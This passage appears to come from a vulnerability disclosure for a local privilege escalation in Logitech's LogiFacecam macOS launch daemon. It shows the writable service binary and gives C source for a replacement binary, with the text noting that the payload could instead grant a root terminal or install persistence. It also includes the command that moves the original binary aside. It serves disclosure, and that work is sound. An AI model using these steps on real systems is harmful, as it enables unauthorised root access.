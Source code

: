 ```xml
	</dict>
	<key>ProgramArguments</key>
	<array>
		<string>/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService</string>
	</array>
</dict>
</plist>
```

### Confirm the presence of the `com.Logitech.LogiFacecam.Service` Launch Daemon
The `com.Logitech.LogiFacecam.Service` can be confirmed to be configured in `launchd` by using the following `launchctl` command:
```bash
10:06:53-testmac@mpro:~/Desktop/LOGITECH$ sudo launchctl list | grep -i logitech
283     0       com.Logitech.LogiFacecam.Service
```

### Confirm the weak directory permissions
The directory permissions can be confirmed with the following command:
```bash
10:08:57-testmac@mpro:~/Desktop/LOGITECH$ ls -@ -lah "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/"
total 600
drwxr-xr-x@ 3 testmac  staff    96B 24 Oct  2021 .
drwxr-xr-x@ 8 testmac  staff   256B 24 Oct  2021 ..
-rwxr-xr-x@ 1 testmac  staff   300K 24 Oct  2021 LogiFacecamService
```

### Prepare the malicious Mach-O

The following c code can be compiled as the malicious dylib. The result of the `date`, `whoami` and `id` commands are redirected into the `/tmp/com.Logitech.LogiFacecam.Service.pwn` file. The contents can be arbritrary, e.g. changing file permissions on protected files, installing persistence or providing a root terminal.
```c
/* gcc Logitech_LogiFacecam_LPE.c -o Logitech_LogiFacecam_LPE */
#include <stdlib.h>
int main() {
    system("date >> /tmp/com.Logitech.LogiFacecam.Service.pwn");
    system("whoami >> /tmp/com.Logitech.LogiFacecam.Service.pwn");
    system("id >> /tmp/com.Logitech.LogiFacecam.Service.pwn");
    return 0;
}
```

The original `LogiFacecamService` Mach-O was preserved:
```bash
11:04:10-testmac@mpro:~/Desktop/LOGITECH$ mv /Library/Application\ Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService /Library/Application\ Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService.bak
```
